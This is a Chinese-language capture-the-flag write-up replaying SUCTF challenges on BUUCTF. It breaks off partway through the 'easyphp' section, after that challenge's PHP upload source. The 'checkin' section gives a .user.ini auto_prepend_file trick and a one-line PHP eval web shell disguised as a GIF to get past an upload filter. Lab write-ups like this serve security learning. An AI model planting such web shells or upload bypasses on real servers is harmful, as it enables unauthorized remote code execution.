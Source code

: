 # 前言
SUCTF复现一波.....

复现环境均来自于ＢＵＵＣＴＦ

# checkin

这道题我们主要使用`.user.ini`

payload:

```php
.user.ini
auto_prepend_file=test.gif
```

木马中检测`<?`

```php
test.gif
<script language='php'>eval($_POST['cmd']);</script>
```

然后用antsword连接，完事

```php
http://fbe7e73a-45ff-4c28-86c4-dd879cc61e8b.node2.buuoj.cn.wetolink.com/uploads/3f8c45add7e4722d7a34d2fea8c87504/index.php
```



# easyphp

这道题进去后，题目是给了源代码：

```php
 <?php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}

$hhh = @$_GET['_'];

if (!$hhh){
    highlight_file(__FILE__);
}

if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}
```